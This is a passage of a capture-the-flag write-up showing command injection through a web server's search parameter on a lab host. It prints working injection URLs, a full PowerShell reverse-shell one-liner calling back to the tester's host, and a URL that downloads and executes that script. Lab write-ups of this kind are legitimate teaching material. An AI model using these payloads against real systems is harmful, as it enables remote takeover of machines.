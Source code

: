 ### POC

As a proof of concept, I crafted this URL to try to ping myself:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

If it works, I should see a single ICMP packet at my host. I started `tcpdump` and submitted, and nothing.

Often, this can be an issue with the system not finding the path to `ping` in this current environment. So I tried adding `cmd /c` before the command:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

It worked (interestingly four times):

```
oxdf@parrot$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40
```

I can also run it with PowerShell:

```
http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.10.}
```

### Shell

Given the age of this host and the easy rating, I likely don’t have to worry about Defender / AMSI, so I’ll grab a PowerShell script from [Nishang](https://github.com/samratashok/nishang). I’ll copy the **`Invoke-PowerShellTcpOneLine.ps1`**, cut the comments, and update the IP and port:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

I’ll save a copy of that as `rev.ps1` (just to make an easier url I’m about to request). Then I’ll start a Python web server, and visit:

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}
```
